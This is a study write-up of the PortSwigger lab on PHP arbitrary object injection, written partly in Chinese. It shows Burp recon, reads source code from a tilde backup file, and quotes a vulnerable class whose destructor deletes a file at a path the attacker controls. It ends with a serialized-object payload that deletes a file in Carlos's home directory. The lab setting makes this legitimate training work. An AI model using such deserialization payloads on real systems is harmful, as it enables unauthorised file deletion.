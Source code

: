 ```yaml
---
title: 'Lab: Arbitrary object injection in PHP'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/Deserialization"
---
```


# Lab: Arbitrary object injection in PHP
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result.
* Goal: To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab.
You can log in to your own account using the following credentials: wiener:peter
* Hint: You can sometimes read source code by appending a tilde (~) to a filename to retrieve an editor-generated backup file.

## Constructor & Deconstructor
[Python建構函式與解構函式（__init__()和__del__()）](https://tw511.com/a/01/26451.html)
其實概念就是Python的`__init()__` function，在instanciate一個class的時候扮演初始化的功能而已
而deconstructor就是Python中的`__del__()` function用來回收不需要的class，以達到降低記憶體的使用量

## Recon
1. Login and Recon
As the solution of this lab, we first need to arbitrary query something in this website, e.g. query `My account` and forward all packages

2. Use Target Feature in Burp Suite
In my case, the URL of this lab is `https://0a29005704ba2655802d8a75009100d5.web-security-academy.net/my-account?id=wiener`

    So, I can search it in target feature to browse all query of this website.
    ![](https://i.imgur.com/SWrrzgI.png)

3. <font color="FF0000">通靈</font>Something Interesting - `/libs/CustomTemplate.php`
This file may be a vulnerability to achieve our goal.

4. Send to repeater
Obviously, you can not access the content first.
![](https://i.imgur.com/D31vFeN.png)

    By the hint. The solution is using `~` character to read the source code
    ![](https://i.imgur.com/1N1EpQh.png)

    :::spoiler CustomTemplate.php Source Code
    ```php=
    <?php

    class CustomTemplate {
        private $template_file_path;
        private $lock_file_path;

        public function __construct($template_file_path) {
            $this->template_file_path = $template_file_path;
            $this->lock_file_path = $template_file_path . ".lock";
        }

        private function isTemplateLocked() {
            return file_exists($this->lock_file_path);
        }

        public function getTemplate() {
            return file_get_contents($this->template_file_path);
        }

        public function saveTemplate($template) {
            if (!isTemplateLocked()) {
                if (file_put_contents($this->lock_file_path, "") === false) {
                    throw new Exception("Could not write to " . $this->lock_file_path);
                }
                if (file_put_contents($this->template_file_path, $template) === false) {
                    throw new Exception("Could not write to " . $this->template_file_path);
                }
            }
        }

        function __destruct() {
            // Carlos thought this would be a good idea
            if (file_exists($this->lock_file_path)) {
                unlink($this->lock_file_path);
            }
        }
    }

    ?>
    ```
    :::
    
    In this example, we notice that it has constructor and deconstructor so we can constuct a serialization string to delete something

## Exp - Deconstructor
Exploit Payload:
```php!
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Then send it directly and we can delete the specific file properly.
:::spoiler Success Screenshot
![](https://i.imgur.com/NXvqtr5.png)

:::